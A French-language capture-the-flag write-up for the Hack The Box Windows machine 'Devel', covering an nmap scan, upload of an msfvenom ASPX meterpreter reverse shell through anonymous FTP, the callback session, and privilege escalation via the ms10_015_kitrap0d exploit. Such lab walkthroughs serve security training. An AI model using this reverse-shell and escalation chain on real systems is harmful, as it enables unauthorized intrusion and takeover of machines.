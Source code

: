 # Devel [Windows] Easy

— Énumération —

`nmap -sS -A -sC -sV -p- 10.10.10.5`

```python
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7

21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

FTP Serveur avec rien dedans à part le site nous pouvons envoyer un reverse shell :
Création du shell
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=1234 -f aspx > devel.aspx`

Envoie du shell dans le FTP
`put devel.aspx`

Exécution du shell :

```python
msf6 exploit(multi/handler) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.13:1234
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.13:1234 -> 10.10.10.5:49184 ) at 2022-05-24 07:57:20 -0400
sessions -i 1
[*] Starting interaction with 1...

meterpreter > ls
```

Nous avons maintenant un shell stable

En getuid nous sommes utilisateur IIS nous n'avons donc pas de permission écriture.

-- Priv.Escalation --

`meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows`

Architecture est de x86 on peux chercher des exploit avec metasploit.

```python
meterpreter > run post/multi/recon/local_epxloit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

meterpreter > CTRL+Z

bypassuac_eventvwr n’a pas marcher 

`msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d`

`msf6 exploit(windows/local/ms10_015_kitrap0d) > show options`

`msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 6`

[Mettre notre IP mais un autre port]

`meterpreter > run`

L’exploit marche, on peux prendre les 2 flags en étant root maintenant.